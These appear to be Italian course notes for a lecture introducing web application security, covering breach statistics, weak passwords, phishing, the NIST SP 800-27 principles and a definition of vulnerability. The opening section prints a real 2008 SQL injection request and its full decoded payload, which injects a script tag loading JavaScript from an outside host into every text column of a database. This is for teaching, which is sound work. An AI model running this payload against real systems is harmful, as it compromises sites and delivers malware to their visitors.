

# Introduzione alla Sicurezza

> [!abstract]
> Prima lezione della parte di **sicurezza delle applicazioni web** (prof. Querzoni). Parte da un attacco reale di **SQL injection**, spiega perché la sicurezza applicativa è oggi il fronte principale (l'80% degli attacchi), mostra che **tutti sono potenziali bersagli** e che gli utenti vanno protetti anche da se stessi. Poi introduce i **principi di ingegneria della sicurezza** del NIST SP 800-27 (Security Foundation, Risk Based, Ease of Use, Increase Resilience, Reduce Vulnerabilities, Design with Network in Mind) e una definizione intuitiva di **vulnerabilità** come scarto tra requisiti e funzionalità implementate.
>
> Le lezioni successive rispondono alle tre domande con cui si chiude: gestione delle identità ([[14 - LASS - Autenticazione]]), autorizzazione e attacchi comuni ([[17 - LASS - Sicurezza delle Web Application]]). Collegamenti con [[Autenticazione e Controllo degli Accessi]] (Sistemi di Calcolo 2) e con i corsi magistrali di Cybersecurity ed Ethical Hacking ([[Web Application Hacking]]).
>
> Indice dei concetti: [[MOC - Lab Architetture Software e Sicurezza]].

---

## Introduzione - cos'è questo

Vedi [[Sicurezza delle Applicazioni Web]].

La lezione si apre con un indovinello: una richiesta HTTP trovata nei log di un server web.

![[LASS-L13-p02.png]]

```http
GET /programs/biosafety/bioSafety_handBook/Chapter%206-Bloodborne%20Pathogens%20Human%20Tissue?;DECLARE%20@S%20CHAR(4000);SET%20@S=CAST(0x4445434C415245...%20AS%20CHAR(4000));EXEC(@S);
```

A prima vista è una richiesta di una pagina di un manuale di biosicurezza. Ma dopo il `?` (dove dovrebbero esserci i parametri) c'è del codice **SQL**: dichiara una variabile `@S`, ci mette dentro una lunga stringa **codificata in esadecimale** (`0x4445...`) convertita in testo con `CAST`, e la esegue con `EXEC(@S)`. La codifica esadecimale serve a **nascondere** il codice ai filtri che cercano parole chiave come `UPDATE` o `<script>`.

Decodificando la stringa esadecimale si ottiene:

```sql
DECLARE @T varchar(255),@C varchar(4000)
DECLARE Table_Cursor CURSOR FOR
  select a.name,b.name from sysobjects a,syscolumns b
  where a.id=b.id and a.xtype='u' and
        (b.xtype=99 or b.xtype=35 or b.xtype=231 or b.xtype=167)
OPEN Table_Cursor
FETCH NEXT FROM Table_Cursor INTO @T,@C
WHILE(@@FETCH_STATUS=0) BEGIN
  exec('update ['+@T+'] set ['+@C+']=['+@C+']+''"></title><script src="http://sdo.1000mg.cn/csrss/w.js"></script><!--''
        where '+@C+' not like ''%"></title><script src="http://sdo.1000mg.cn/csrss/w.js"></script><!--''')
  FETCH NEXT FROM Table_Cursor INTO @T,@C
END
CLOSE Table_Cursor
DEALLOCATE Table_Cursor
```

Cosa fa, passo per passo (è codice per **Microsoft SQL Server**):
1. interroga le **tabelle di sistema** (`sysobjects`, `syscolumns`) per ottenere l'elenco di **tutte le tabelle utente** (`xtype='u'`) e di **tutte le loro colonne di testo** (i tipi 99, 35, 231, 167 sono `ntext`, `text`, `nvarchar`, `varchar`);
2. con un **cursore** scorre ogni coppia (tabella, colonna);
3. per ciascuna esegue un `UPDATE` che **aggiunge in coda a ogni valore** la stringa `"></title><script src="http://sdo.1000mg.cn/csrss/w.js"></script><!--`, a meno che non ci sia già.

Il risultato: **ogni testo del database** (titoli, descrizioni, commenti) contiene ora un tag `<script>` che carica un JavaScript malevolo da un server cinese. Quando il sito mostra quei testi nelle sue pagine, il browser di **ogni visitatore** esegue lo script (che tipicamente cercava di installare malware). Il `"></title>` iniziale serve a "chiudere" un eventuale tag `<title>` in cui il testo venga inserito, e `<!--` commenta il resto della riga per non rompere la pagina.

> [!example] Due attacchi in uno
> È una **SQL injection** (il parametro della richiesta viene eseguito come SQL dal database, vedi [[17 - LASS - Sicurezza delle Web Application#A1 – Injection|A1]]) usata per piantare uno **stored XSS** (lo script salvato nel database viene servito a tutti gli utenti, vedi [[17 - LASS - Sicurezza delle Web Application#A3 – Cross-Site Scripting (XSS)|A3]]). È il tipo di attacco automatizzato di massa che nel 2008 ha compromesso centinaia di migliaia di siti: l'attaccante non sa nulla del sito, il codice scopre da solo la struttura del database. Funziona solo se l'applicazione concatena il parametro dentro una query SQL senza controllarlo.

## Perché la sicurezza applicativa

- **Circa l'80% degli attacchi** informatici oggi avviene a **livello applicativo** (non sulla rete o sul sistema operativo).
- Il web è **pieno di documenti** che spiegano come realizzare semplici attacchi.
- È anche **pieno di strumenti** che rendono **semplici** attacchi **complessi** (scanner automatici, sqlmap, Burp Suite: vedi [[Web Hacking Tools]]).
- **Un'applicazione non sicura può rendere vulnerabile un sistema protetto da un impenetrabile firewall**: il firewall lascia passare il traffico HTTP verso la web app, e l'attacco viaggia proprio dentro quel traffico (come la richiesta GET qui sopra).
- I **costi** legati alla **perdita di dati** superano di **diversi ordini di grandezza** quelli necessari a mettere in sicurezza un'applicazione.

## Tutti sono potenziali obiettivi

![[LASS-L13-p05.png]]

Il grafico *World's Biggest Data Breaches* (di Information is Beautiful) rappresenta le più grandi violazioni di dati con **bolle proporzionali al numero di record rubati**, ordinate per anno. Tra le più grandi: **Adobe** (152 milioni di account), **eBay** (145 milioni), **JP Morgan Chase** (76 milioni), **Target** (70 milioni), **Home Depot** (56 milioni), e poi Gmail, Sony Pictures, UPS, Yahoo Japan, Ubuntu, SnapChat… Il messaggio: sono state violate **aziende enormi**, con budget per la sicurezza enormi. Nessuno può pensare di non essere un bersaglio.

![[LASS-L13-p06.png]]

**Have I Been Pwned?** (haveibeenpwned.com) è un servizio in cui si inserisce il proprio indirizzo email o username per sapere se compare in una violazione di dati nota. Nella schermata (datata) si leggono 101 siti violati e **337.825.034 account compromessi**, e la *Top 10 breaches*: Adobe (152 milioni), Ashley Madison (30 milioni), Mate1.com (27 milioni), 000webhost (13 milioni), R2Games, Gamigo, Heroes of Newerth, Nexus Mods, VTech, mail.ru. Oggi il sito conta miliardi di account: vale la pena controllare il proprio indirizzo.

## Mai sovrastimare le capacità degli utenti

![[LASS-L13-p07.png]]

La classifica delle **password più usate** (dati di SplashData, rispetto al 2014): **123456** e **password** ai primi due posti, poi 12345678, qwerty, 12345, 123456789, football, 1234, 1234567, baseball, e il nuovo ingresso **welcome**. Sono tutte password che un attaccante prova per prime: un sistema che le accetta è vulnerabile anche se il codice è perfetto. Le regole per le password e il loro corretto salvataggio sono il tema della [[14 - LASS - Autenticazione#Password Management|lezione 14]].

![[LASS-L13-p08.png]]

Un'email di **phishing** che imita **Poste Italiane**: invita il "caro cliente" a diventare "utente verificato" cliccando un link, con loghi, numero verde e piè di pagina copiati da quelli veri per sembrare autentica. Il link porta a un sito falso che ruba le credenziali. Gli utenti cadono in queste trappole: il sistema deve essere progettato per **limitare i danni** anche quando un utente sbaglia (ad esempio con l'[[Autenticazione a Due Fattori|autenticazione a due fattori]]).

> [!important] Il messaggio della lezione
> **È responsabilità di ogni progettista/programmatore garantire la sicurezza dei sistemi che sviluppa.**
>
> La sicurezza non è un compito da delegare a un "team di sicurezza" alla fine del progetto: è una proprietà del codice, e chi scrive il codice ne è responsabile.

## Principi basilari (NIST SP 800-27)

Vedi [[Principi NIST 800-27]].

I principi seguenti vengono dal documento **NIST SP 800-27 rev. A**, *Engineering Principles for Information Technology Security* (NIST è l'ente di standardizzazione americano). Sono raggruppati in sei categorie; le slide li presentano in un ordine leggermente diverso, interrompendoli con la definizione di vulnerabilità.

### Security Foundation

- Stabilire una **politica di sicurezza** solida come **"fondamenta"** della progettazione.
- Trattare la sicurezza come **parte integrante** della progettazione complessiva del sistema (non come un'aggiunta finale).
- Delimitare chiaramente i **confini di sicurezza fisici e logici**, governati dalle relative politiche.
- Assicurarsi che gli sviluppatori siano **formati** su come sviluppare software sicuro.

### Risk Based

- **Ridurre il rischio a un livello accettabile** (il rischio zero non esiste).
- **Assumere che i sistemi esterni siano insicuri** (non fidarsi dei dati che arrivano da fuori: utenti, API, altri servizi).
- Identificare i possibili **compromessi** tra la riduzione del rischio e l'aumento dei costi o la riduzione di altri aspetti dell'efficacia operativa.
- Implementare misure di sicurezza **su misura** per raggiungere gli obiettivi di sicurezza dell'organizzazione.
- **Proteggere le informazioni durante l'elaborazione, in transito e quando sono memorizzate** (*in use, in transit, at rest*).
- Considerare prodotti **personalizzati** per ottenere una sicurezza adeguata.
- Proteggersi da **tutte le classi probabili di "attacchi"**.

### Ease of Use

- Usare **standard di sicurezza aperti** per portabilità e interoperabilità.
- Usare un **linguaggio comune** nello sviluppo dei requisiti di sicurezza.
- Progettare la sicurezza in modo da permettere l'**adozione regolare di nuove tecnologie**, con un processo di aggiornamento sicuro e logico.
- Puntare alla **facilità d'uso operativa** (una sicurezza scomoda viene aggirata dagli utenti: vedi il trade-off *security vs usability* in [[02 - LASS - Software Architectures#Trade-off|lezione 2]]).

### Increase Resilience

- Implementare una **sicurezza a strati** (*layered security*, nessun **single point of vulnerability**): è il principio della **difesa in profondità**.
- Progettare e gestire un sistema IT in modo da **limitare i danni** ed essere resiliente nella risposta.
- Assicurare che il sistema sia **continuamente resiliente** alle minacce previste.
- **Isolare i sistemi ad accesso pubblico** dalle risorse **mission critical**.
- Usare **meccanismi di confine** (firewall, DMZ) per separare sistemi di calcolo e infrastrutture di rete.
- Progettare e implementare **meccanismi di audit** per rilevare usi non autorizzati e supportare le indagini sugli incidenti.
- Sviluppare ed esercitare procedure di **contingency / disaster recovery**.

## Cos'è una vulnerabilità?

Vedi [[Vulnerabilità Software]].

Le slide costruiscono la definizione con un diagramma a due cerchi, mostrato in più passi.

**Sviluppo software in un mondo ideale.** C'è un cerchio dei **requisiti**; il cerchio delle **funzionalità implementate** coincide esattamente con esso, e l'area comune sono le **feature**: il software fa tutto e solo ciò che è stato chiesto.

![[LASS-L13-p15.png]]

**Sviluppo software nel mondo reale.** I due cerchi si sovrappongono solo in parte:

![[LASS-L13-p17.png]]

- l'intersezione sono le **feature**, ciò che è richiesto ed è stato implementato correttamente;
- la parte dei requisiti **non** coperta dalle funzionalità implementate sono i **bug**: cose che il software doveva fare e non fa (o fa male);
- la parte delle funzionalità implementate **fuori** dai requisiti sono le **funzionalità non volute e non documentate** (*unintended and undocumented functionalities*): cose che il software **fa** anche se nessuno l'ha chiesto.

È in quest'ultima zona che vivono le **vulnerabilità**: un campo di ricerca che accetta anche codice SQL, un upload che accetta anche script eseguibili, una pagina di amministrazione raggiungibile digitando l'URL. Il software "funziona" (supera i test sui requisiti) ma fa anche qualcosa che un attaccante può sfruttare. Per questo i test devono coprire anche i **sad path** e i casi d'abuso, non solo le funzionalità richieste (vedi [[08 - LASS - Behavior-Driven Development#Gherkin Example|lezione 8]]).



## Principi basilari (continua)

### Reduce Vulnerabilities

- Puntare alla **semplicità** (ogni riga di codice in più è una possibile vulnerabilità in più).
- **Minimizzare** gli elementi del sistema di cui ci si deve **fidare** (*trusted computing base*).
- Implementare il **minimo privilegio** (*least privilege*): ogni componente e utente deve avere solo i permessi strettamente necessari (es. l'utente del database usato dalla web app non deve poter cancellare tabelle; nell'attacco iniziale, un utente con soli permessi di lettura avrebbe fermato gli `UPDATE`).
- **Non implementare meccanismi di sicurezza non necessari** (aggiungono complessità senza beneficio).
- Garantire la sicurezza anche nello **spegnimento o dismissione** di un sistema (dischi da cancellare, credenziali da revocare).
- **Identificare e prevenire gli errori e le vulnerabilità comuni** (è lo scopo dell'OWASP Top 10, [[17 - LASS - Sicurezza delle Web Application|lezione 17]]).

### Design with Network in Mind

- Implementare la sicurezza con una **combinazione di misure** distribuite **fisicamente e logicamente**.
- Formulare misure di sicurezza per gestire **più domini informativi sovrapposti**.
- **Autenticare utenti e processi** per garantire decisioni di **controllo degli accessi** appropriate, sia all'interno di un dominio sia tra domini diversi.
- Usare **identità univoche** per garantire l'**accountability** (sapere chi ha fatto cosa: niente account condivisi).

| Categoria | Idea chiave |
|---|---|
| Security Foundation | la sicurezza fa parte del design fin dall'inizio |
| Risk Based | ridurre il rischio a un livello accettabile, non fidarsi dell'esterno |
| Ease of Use | standard aperti, sicurezza usabile |
| Increase Resilience | difesa a strati, limitare i danni, audit |
| Reduce Vulnerabilities | semplicità, minimo privilegio |
| Design with Network in Mind | autenticazione, identità univoche, misure distribuite |

## Next…

Obiettivi delle prossime lezioni:
- **Come possiamo gestire le identità degli utenti?** → [[14 - LASS - Autenticazione]]
- **Come garantiamo che un utente possa accedere solo alle funzionalità per le quali è autorizzato?** → autorizzazione, in [[17 - LASS - Sicurezza delle Web Application#A4 – Insecure Direct Object References|A4]] e [[17 - LASS - Sicurezza delle Web Application#A7 – Missing Function Level Access Control|A7]]
- **Come ci cauteliamo rispetto agli attacchi più comuni?** → [[17 - LASS - Sicurezza delle Web Application|OWASP Top 10]]

> [!note]
> Il piè di pagina delle slide di questa parte riporta "Laboratorio di **Applicazioni** Software e Sicurezza Informatica": probabilmente un nome precedente del corso (oggi "Architetture").
